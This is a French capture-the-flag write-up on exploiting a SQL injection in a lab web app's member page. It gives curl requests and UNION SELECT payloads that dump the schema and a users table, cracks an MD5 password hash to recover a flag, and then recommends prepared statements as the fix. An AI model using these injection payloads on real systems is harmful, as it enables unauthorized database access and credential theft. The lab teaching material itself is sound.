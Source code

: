 # SQL Injection

## Exploitation

Sur la page member, on se rend compte que l'on peut provoquer une erreur MySql en passant le caractère `'` dans la textbox.

```bash
curl -s 'http://192.168.99.100/?page=member&id=%27&Submit=Submit' | grep error
<pre>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1</pre>
```

On peut certainement faire une injection SQL.

On utilise cette query pour recuperer les tables et colonnes de la DB:

```sql
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
```

```bash
curl 'http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit'
```

On se rend compte qu'il y a une table `user` avec les colonnes `user_id|town|planet|country|last_name|first_name|Commentaire|countersign`.

On utilise ces query pour récupérer des datas de la table `user`:

```sql
`1 UNION SELECT first_name,Commentaire from users`
`1 UNION SELECT first_name,countersign from users`
```

```bash
curl 'http://192.168.99.100/?page=member&id=1+UNION+SELECT+first_name%2CCommentaire+from+users&Submit=Submit' | grep Flag

<br>First name: Flag<br>Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !</pre><table width=50%>
```

```bash
curl 'http://192.168.99.100/?page=member&id=1+UNION+SELECT+first_name%2Ccountersign+from+users&Submit=Submit' | grep Flag

 <br>First name: Flag<br>Surname : 5ff9d0165b4f92b14994e5c685cdce28</pre><table width=50%>

```

En faisant un md5 reverse de `5ff9d0165b4f92b14994e5c685cdce28`, on obtient `FortyTwo`, donc en lower `fortytwo`

```bash
$> echo -n fortytwo | shasum -a 256
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Resolutions

En PHP, on peut utiliser des prepared statement:

```php
<?php
/* Execute a prepared statement by passing an array of values */
$sql = 'SELECT name, colour, calories
    FROM fruit  WHERE colour = :colour';
$sth = $dbh->prepare($sql, array(PDO::ATTR_CURSOR => PDO::CURSOR_FWDONLY));
$sth->execute(array(':colour' => 'red'));
$red = $sth->fetchAll();
?>
```

Ou plus simplement la fonction `mysql_real_escape_string` pour mysql:

```php
$query = sprintf("SELECT * FROM users WHERE user='%s' AND password='%s'",
            mysql_real_escape_string($user),
            mysql_real_escape_string($password));
```

